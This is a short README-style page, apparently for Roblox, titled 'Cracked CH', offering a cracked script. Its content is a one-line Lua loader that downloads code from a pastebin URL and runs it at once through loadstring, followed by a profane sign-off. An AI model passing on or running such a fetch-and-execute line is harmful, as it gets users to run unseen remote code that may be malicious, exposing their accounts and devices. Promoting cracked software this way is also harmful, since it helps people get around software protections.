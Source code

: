 # Cracked CH
Here's the current cracked script:
```lua
loadstring(game:HttpGet('https://pastebin.com/raw/YgJEBYbd',true))()
```

Enjoy, fuck those bastards.

